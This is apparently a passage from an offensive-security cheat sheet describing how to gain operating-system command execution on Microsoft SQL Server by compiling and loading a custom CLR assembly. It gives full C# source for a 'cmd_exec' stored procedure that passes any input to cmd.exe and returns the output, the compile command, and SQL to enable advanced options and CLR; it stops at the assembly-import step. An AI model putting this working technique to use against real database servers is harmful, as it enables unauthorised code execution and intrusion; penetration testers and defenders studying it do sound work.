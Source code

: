 ### Manually creating a CLR DLL and importing it

Create a C# DLL file with the following content, with the command : `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:library c:\temp\cmd_exec.cs`

```csharp
using System;
using System.Data;
using System.Data.SqlClient;
using System.Data.SqlTypes;
using Microsoft.SqlServer.Server;
using System.IO;
using System.Diagnostics;
using System.Text;

public partial class StoredProcedures
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void cmd_exec (SqlString execCommand)
    {
        Process proc = new Process();
        proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
        proc.StartInfo.Arguments = string.Format(@" /C {0}", execCommand.Value);
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.RedirectStandardOutput = true;
        proc.Start();

        // Create the record and specify the metadata for the columns.
        SqlDataRecord record = new SqlDataRecord(new SqlMetaData("output", SqlDbType.NVarChar, 4000));
        
        // Mark the beginning of the result set.
        SqlContext.Pipe.SendResultsStart(record);

        // Set values for each column in the row
        record.SetString(0, proc.StandardOutput.ReadToEnd().ToString());

        // Send the row back to the client.
        SqlContext.Pipe.SendResultsRow(record);
        
        // Mark the end of the result set.
        SqlContext.Pipe.SendResultsEnd();
        
        proc.WaitForExit();
        proc.Close();
    }
};
```

Then follow these instructions:

1. Enable `show advanced options` on the server
	```sql
	sp_configure 'show advanced options',1; 
	RECONFIGURE
	GO
	```
2. Enable CLR on the server
	```sql
	sp_configure 'clr enabled',1
	RECONFIGURE
	GO
	```
3. Import the assembly
	```sql